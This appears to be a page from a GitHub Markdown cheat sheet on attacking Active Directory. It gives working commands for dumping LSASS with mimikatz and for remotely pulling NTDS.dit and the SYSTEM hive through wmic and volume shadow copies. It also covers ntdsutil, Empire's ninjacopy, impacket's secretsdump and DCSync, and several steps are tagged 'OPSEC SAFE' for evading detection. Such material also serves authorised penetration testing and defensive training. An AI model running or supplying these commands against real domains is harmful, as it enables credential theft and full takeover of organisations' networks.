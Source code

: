 #### Dangerous Built-in Groups Usage.  

Built-in groups are commonly used intead of custom delegation. Members of *Account Operators* and *Print Operators* can log on to the main controller by default. Consequently, If a helpdesk account is compromised, the entire domain will be compromised too.  

#### Dumping AD Domain Credentials.  

**NTDS.dit** is the AD database file, if the file is extracted we can spoof any user within the domain or create golden tickets. It can be found on DC backups or external network storage devices. In addition, VMWare admins have the ability to clone a virtual DC within VMware, if an account is compromised, a DC can be cloned and the NTDS.dit file copied without even starting the clone. **OPSEC SAFE**  

Task manager can be used to dump LSASS into a LSASS dump file and run mimikatz against it on another box. **OPSEC SAFE**  

  - TaskManager --> lsass.exe --> Create dump file.  
  - ```mimikatz # sekurlsa::minidump <dump_file>``` --> Extract credentials from the file.
  - [Alternative Method to investigate](http://www.exploit-monday.com/2012/03/powershell-live-memory-analysis-tools.html)  
  - Once Domain Admin credentials are extracted the next step is to remotely get the **NTDS.dit** file.

**Remotely Get the DIT:**  
  
  - ```wmic /node:<DC-HOSTNAME> /user:<Domain-User> /password:<Password> process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > c:\vss.log"``` --> Shadow volume creation.  
  - ```wmic /node:<DC-HOSTNAME> /user:<Domain-User> /password:<Password> process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Windows\temp\NTDS.dit 2>&1 > c:\vss2.log"``` --> Copy NTDS.dit from VSS snapshot to C:  
  - ```wmic /node:<DC-HOSTNAME> /user:<Domain-User> /password:<Password> process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\windows\temp\SYSTEM.hive 2>&1 > c:\vss2.log"``` --> Copy SYSTEM registry hive from VSS snapshot to C:  

**Remotely Get the DIT when no clear-text password exists:**  

  - ```wmic authority:"Kerberos:<DOMAIN>\<DC-HOSTNAME>" /node:<DC-HOSTNAME> process call create...``` --> Pass-the-ticket before executing this command. 
  - ```usemodule collection/ninjacopy``` --> Powersploit Invoke-NinjaCopy from Empire.  

**Using NTDSUtil**  

  - ```ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q``` --> Having access to the DC, NTDSUtil can be used with "install from media" option for creating a NTDS.dit and SYSTEM registry hive.  

**Extract Passwords from NTDS.dit**  

  - ```python secretsdump.py -system <SYSTEM.hive> -ntds <NTDS.dit> LOCAL``` --> Extract all password hashes from the domain using impacket's secretdump.  

**DCSync (Mimikatz)**  

A better approach for acquiring domain's password hashes. Enables us to act as a DC and request password data from the targeted DC. No need to interactive logon or pulling the NTDS.dit file. **OPSEC SAFE**  
